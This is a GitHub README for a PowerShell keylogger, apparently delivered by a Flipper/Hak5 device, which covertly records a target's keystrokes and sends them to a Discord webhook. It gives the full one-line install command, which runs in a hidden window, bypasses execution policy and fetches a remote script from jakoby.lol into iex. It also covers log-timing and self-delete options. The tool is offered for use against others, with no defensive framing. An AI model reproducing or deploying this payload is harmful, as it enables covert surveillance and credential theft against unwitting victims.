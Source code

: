 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Keylogger (CURRENTLY DETECTED - UPDATING ASAP)

This is a Powershell based keylogger that exfiltrates the logs to discord

## Description

Quickly with just ONE line of code you can deploy a keylogger on your targets computer 

Complete with custom logging times, and self destruct feature

Just move the `keylogger.txt` file over to your flipper and you are good to go

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* 15 seconds later you have their keystrokes being sent to you

This is the basic command to install the keylogger and provide the webhook for the keystrokes to be sent back to you

* `$dc=''` is the variable where you plug in your discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='https://link.iamjakoby.com/xxxx';iwr "https://jakoby.lol/m2m" | iex
```
### ADDITIONAL PARAMETERS

The payload is set to send the logs collected every hour on the hour

* You maybe use the `$log` variable to specify a certain time instead (Use this for testing)
* ex: `$log="09:00 pm"`  <-- This will send the log every night at 9pm

You also have the option of setting up a killswitch to have the keylogger self delete at a certain time and date 

`$ks="12/25/2022 10:00:00 PM"`  <-- This will make the keylogger self delete at 10pm on December 25th

Calling the script with both a `log` time and `killswitch` will look something like this: 
 
```
powershell -w h -NoP -Ep Bypass -command "$dc='https://link.iamjakoby.com/xxxx';$log='09:00 pm';$ks='12/25/2022 10:00:00 PM';iwr 'https://jakoby.lol/m2m' | iex"
```
### DELETING THE KEYLOGGER

Just hold `Left Control` + `Right Control` for 5 seconds untill the notification box pops up

<img src= https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/Assets/keylogger/kkl.png width="400" alt="C#" />



<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

